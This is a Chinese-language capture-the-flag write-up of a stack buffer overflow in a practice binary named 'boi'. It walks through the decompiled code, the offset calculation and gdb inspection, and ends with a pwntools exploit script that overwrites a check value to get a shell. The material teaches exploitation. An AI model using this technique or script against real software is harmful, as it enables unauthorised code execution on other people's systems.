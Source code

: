 # 2 缓冲区溢出 boi程序 --  地址覆盖
2021.02.12更新

首先反编译程序，得到的代码如下：  

```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 buf[2]; // [rsp+10h] [rbp-30h] BYREF
  __int64 v5; // [rsp+20h] [rbp-20h]
  int v6; // [rsp+28h] [rbp-18h]
  unsigned __int64 v7; // [rsp+38h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  buf[0] = 0LL;
  buf[1] = 0LL;
  v5 = 0xDEADBEEF00000000LL;
  v6 = 0;
  puts("Are you a big boiiiii??");
  read(0, buf, 0x18uLL);
  if ( HIDWORD(v5) == -889996562 )
    run_cmd("/bin/bash");
  else
    run_cmd("/bin/date");
  return 0;
}
```
从上面的代码中可以看出，只要v5 == -889996562就可以成功启用shell，我们可以在汇编代码里可以得到具体的值为 0xCAF3BAEE

![image](images/79636b85-88fe-40fe-a0e5-aefa0d75652a.png)



但是在代码中，v5已经被设置为0xDEADBEEF，这样明显是不可能成功的。但是程序对用户输入的数据 buf 没有做长度校验，那么就可以造成缓冲区溢出，如果我们能够把v5地址的值覆盖掉，那么就可以成功运行shell

首先查看接收用户输入的变量为buf，长度为24

```cpp
 read(0, &buf, 0x18uLL);
```
接着查看var\_20的偏移地址和buf的偏移地址

![image](images/64764321.png)

从上面可以看到，buf和var\_20的偏移地址之间差了0x10，再加上要作比较的地址v5为var\_20+4，所以buf和目标地址的偏移地址为0x10+0x4 = 0x14，而且变量类型为dq，占用4个字节，要成功覆盖掉目标地址的值，所以输入的数据长度就需要为0x14 + 4 = 0x18，正好read函数也是读取0x18个字符。前面0x14的数据随意，后面4个字节的值必须为0xcaf3baee

使用pwntools来生成payload

```python
payload = b"0"*0x14 + p32(0xcaf3baee)
# 00000000000000000000\xee\xba\xf3\xca
```
使用gdb来看看具体的情况，在0x4006a5处下断点

![image](images/8c9f4f29-0071-4a14-a42b-ffc1d0f0f25e.png)

```cpp
b *0x4006a5
```
我们输入20个1，1的ASCII为31，查看栈布局

![image](images/7113f83b-8630-4f98-9280-e4393a3dfda4.png)

可以看到我们输入的20个1在内存中的起始地址为 0x7fffffffe220，接着我们查看在这个地址后面的10个字节在内存中的值是多少

![image](images/2352cb5b-8322-4653-bd4a-41ee3b079f7f.png)

这里看到，我们输入的20个1已经覆盖掉v5的值0xdeadbeef的最后一个字节，v5值变成了0xdeadbe0a，被回车符号覆盖掉了。小端机器，高字节在最后，低字节在最前面，最低有效位存在内存低位。

现在我们的目标就是把v5覆盖成我们想要的值 0xCAF3BAEE，gdb中重新运行程序，这次我们把它覆盖为0000

```cpp
gef➤  r <<< $(python3 -c "print('1'*0x14 + '0'*4)")
```
接着查看内存中的值，可以看到成功覆盖

![image](images/58b2a2cd-f92c-4b25-9a19-399b24406201.png)

那么接下来使用pwntools生成payload进行利用即可

```cpp
#!/usr/bin/env python3

from pwn import *

target = process('./boi')

payload = b'0'*0x14 + p32(0XCAF3BAEE)

target.send(payload)

target.interactive()
```
![image](images/abb265b0-8b94-4960-a411-5281ac68f134.png)